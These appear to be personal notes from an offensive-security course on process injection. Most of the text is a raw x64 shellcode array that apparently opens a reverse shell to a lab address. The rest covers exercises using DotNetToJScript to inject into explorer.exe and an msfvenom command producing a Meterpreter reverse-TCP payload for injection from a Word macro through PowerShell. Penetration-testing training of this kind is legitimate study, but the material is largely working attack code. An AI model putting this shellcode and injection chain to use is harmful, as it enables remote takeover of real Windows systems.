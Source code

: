 ```bash
0x01,0x00,0x00,0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x23,0x29,
0xc0,0xa8,0x01,0x6d,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,
0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x6a,0x0a,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,
0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,
0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,
0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,
0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,
0xce,0x75,0xe5,0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,
0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x04,0x41,0x58,0x48,0x89,
0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,
0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,
0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,
0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,
0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,
0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,
0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40,
0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,
0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,
0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x01,0xc3,
0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,
0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,
0xd5};

```

### Excersises

### #2 
Modify the code of the ExampleAssembly project in DotNetToJscript to create a Jscript file that executes the shellcode inside explorer.exe. Instead of hardcoding the process ID, which cannot be known remotely, use the _Process.GetProcessByName_[8](https://portal.offsec.com/courses/pen-300-9502/learning/process-injection-and-migration-14686/finding-a-home-for-our-shellcode-14733/process-injection-in-c%23-14999#fn-local_id_490-8) method to resolve it dynamically.
- convert to js
```powershell
 .\DotNetToJScript.exe C:\users\dooley\source\repos\InjectToJscript\InjectToJscript\bin\x64\Release\InjectToJscript.dll --lang=jscript --ver=v4 -o injecttojs.js -c InjectToJscript.Class1
```

### \#3

- Port the code from C# to PowerShell to allow process injection and shellcode execution from a Word macro through PowerShell. Remember that PowerShell is started as 32-bit, so instead of injecting into explorer.exe, start a 32-bit process such as Notepad and inject into that instead.
- create revshell payload in powershell format
```bash
 ❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.109 LPORT=9001 EXITFUNC=thread -f ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 375 bytes
Final size of ps1 file: 1830 bytes
```
- injection named injection2.ps1
